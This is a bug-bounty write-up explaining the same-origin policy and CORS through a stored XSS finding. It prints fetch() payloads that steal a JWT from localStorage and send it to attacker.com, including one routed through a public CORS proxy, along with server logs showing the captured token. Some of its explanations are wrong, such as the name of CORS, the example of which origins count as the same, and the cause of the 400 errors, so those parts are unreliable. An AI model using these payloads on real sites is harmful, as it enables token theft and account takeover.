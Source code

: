 ```yaml
---
layout: post
title: "On SOP, CORS, and the Hows of Exfiltrating JWTs via XSS"
author: "BoT"
tags: "bugbounty"
excerpt_separator: <!--more-->
---
```


In other words: how to not get c\*\*k-blocked by CORS.

<!--more-->

## Background

I recently found a stored Cross-site Scripting (XSS) vulnerability while hunting at a target.

While the bug class itself is not particularly spectacular, what interested me was on _what_ I could do with it.

Showing an alert popup is fine and all, but impact of that level would likely only net me a `Medium` in severity at HackerOne. To justify for anything higher, I have to get creative on showing its potential disastrous impact.

Given that this is a stored XSS, I thought to myself:

> What if I demonstrate that an attacker can essentially harvest credentials from any authenticated user who browses the affected page? In that case, mass account takeovers would be trivial!

An idea worth trying out, especially since the application stores the value of its JWT in the browser's `localStorage` as `token`.

I can simply swap out the typical payload of `alert(document.domain)` with one that retrieves the token and makes a GET request to a server under my control.

Just like this; and that should be it... right?

```javascript
fetch("https://attacker.com:8000/jwt=" + JSON.stringify(localStorage.getItem("token")));
```

Nope-- what greeted me was this sad little error message in the console instead:

> Access to fetch at 'https://attacker.com:8000/?jwt=xxx' from origin 'https://example.redacted.com' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.

Very sad indeed.

## What in the world is CORS???

Now, before we go into that, let's first understand what is **Same-Origin Policy** (SOP).

Long story short, SOP prevents one origin from accessing resources of another origin.

Origin here is defined as `protocol://hostname:port`. In other words, in order for one origin to be considered the same as another origin, the values of these three variables must be _exactly_ the same.

Let's take `https://example.com/latest` as an example:

- `http://example.com/myinfo` is allowed because they are of the same origin
- `http://example.com/users.json` is blocked because they are of different protocol and port
- `https://api.example.com/info` is blocked because they are of different domain
- `https://example.com:8443/files` is blocked because they are of different port

One might say:

> But `img` tag can still load images despite not being the same origin!

That is correct -- because SOP only prevents browser's JavaScript engine from reading the contents of a response, it _does_ allow the resource to be loaded onto the DOM of the page.

To reiterate, the purpose of SOP is not to prevent request for a resources from being sent. In fact, in the prior example, all of the requests would be sent, it is just that `https://example.com/latest` wouldn't be able to read the response of those marked as blocked.

With the rise of micro-services, strict SOP policies like these are just too stifling for developers, which leads us to **Cross-Origin Policy** (CORS).

Simply put, CORS helps to relax these restrictions by instructing the browser on which origin are allowed to access their resources via headers.

The most common CORS-related headers are:

- `Access-Control-Allow-Origin` that specifies which origin can access the response
- `Access-Control-Allow-Credentials` that indicates if the request can include cookies
- `Access-Control-Expose-Headers` that instructs the browser to expose certain headers to JavaScript

If resources from `https://example.com/` were to be successfully loaded by `https://api.example.com/`, the response of the latter must have the following CORS header:

```
Access-Control-Allow-Origin: https://example.com
```

And this is why we had our little error: our `https://attacker.com/` doesn't return the necessary CORS header to allow our XSS payload to do its magic.

## Okay... how do we solve this?

> Wait a sec-- didn't you say that requests would still be sent? You should be able to see the incoming request which would have the JWT you sent!

Well, yes.

The request was indeed sent, but that didn't mean the delivered content was legible from the web server. In fact, it was a bunch of truly horrible-looking `400 Bad Request` errors.

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('ô<\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü_ÆoTmç¸Æ<&°ø`«6ß¸ÍòëH ¹3E&z×vø¾ú®^umrÒ}³J  ô<"À+À/Ì©Ì¨À,À0À" 400 -
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('}Å|\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü0!>Êó*!SEu´cj<ºaaÅ3ãqH· â3qøÂµßS02§[¾(dà¥ÃGz|_t}Å|"À+À/Ì©Ì¨À,À0À" 400 -
```

No amount of Googling had enlightened me on what-the-loving-f\*\*k is happening here (probably something to do with that missing CORS header), so I moved on to my next brilliant idea -- using CORS proxies!

A CORS proxy essentially acts as an intermediary that helpfully adds the required `Access-Control-Allow-Origin` header. It's easy -- doesn't require server setups of any kind -- and already has many instances online for immediate use (e.g. `CORS Anywhere`, `alloworigin`).

One just needs to prefix the chosen proxy's URL to `https://attacker.com` and the proxy in question will:

1. Forward the request to `https://attacker.com`
2. Add the `Access-Control-Allow-Origin` header to the response from `https://attacker.com`
3. Passes that response, with that added header, back to the requesting `https://attacker.com`

Sounds simple!

Now, let's try this out on the XSS payload...

```javascript
fetch(
  "https://api.allorigins.win/get?url=https://attacker.com:8000/jwt=" +
    JSON.stringify(localStorage.getItem("token"))
);
```

... voilà, the JWT we are looking for on our web server!

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ - - [16/Mar/2023 13:34:48] code 404, message File not found
██████████ - - [16/Mar/2023 13:34:48] "GET /%22eyJ0eXAiOiJKV1Q█████████.eyJhdWQiOiJiMjg█████████.Vnm3IUUeydxCItX█████████%22 HTTP/1.1" 404 -
```

## Conclusion

Ultimately, this vulnerability was triaged as `Medium` in severity. While disappointing, it was a good revision of the SOP and CORS concepts. In my opinion, it was a net gain.

Funny enough, it wasn't until everything was said and done that I realized scripts like [khalidx/simple_http_server_cors.py](https://gist.github.com/khalidx/6d6ebcd66b6775dae41477cffaa601e5) exist. Instead of resolving the CORS error in such a roundabout way, I could have just leached onto open-source tools that were already available.

Oh well.

## References

- My very expensive OSWE course-book 🙃
- [StackOverflow - Trying to use fetch and pass in mode: no-cors](https://stackoverflow.com/questions/43262121/trying-to-use-fetch-and-pass-in-mode-no-cors)
